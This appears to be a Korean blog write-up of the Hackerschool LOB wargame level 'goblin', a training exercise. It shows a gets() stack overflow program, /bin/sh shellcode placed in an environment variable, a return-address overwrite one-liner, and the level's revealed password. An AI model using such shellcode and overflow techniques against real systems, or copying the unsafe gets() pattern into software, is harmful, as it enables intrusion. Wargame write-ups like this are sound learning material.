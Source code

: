 ```yaml
---
layout: post
title: "Hackerschool LOB-cobolt"
categories: [Hackerschool-LOB]
tags: [pwnable]
redirect_from:
 - /2019/07/28/
---
```

```bash
login: cobolt
Password:
[cobolt@localhost cobolt]$ ls
goblin  goblin.c
[cobolt@localhost cobolt]$ cat goblin.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
cobolt/hacking exposed로 접속하자.
gremlin과 같이 배열 크기가 작으므로 환경변수를 통해서 풀자.
```bash
export code=$(python -c 'print"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')
```
주소를 찾자.
```bash
[cobolt@localhost tmp]$ cat find.c
int main()
{
        printf("%x\n",getenv("code"));
}
[cobolt@localhost tmp]$ ./find
bffff6ec
```
환경변수의 주소값 : bffff6ec
RET까지 거리 : 배열 크기+4=16+4=20
그러므로 20개의 값과 환경변수의 주소값을 넣어주자.
프로그램 실행 후 입력을 받는 형식이므로 ;cat을 사용하는 것을 잊지 말자.
```bash
[cobolt@localhost cobolt]$ (python -c 'print"\x90"*20+"\xec\xf6\xff\xbf"';cat)|./goblin
릱릱릱릱릱릱릱릱릱릱恁?
my-pass
euid = 503
hackers proof
```
cobolt's password : "hackers proof"
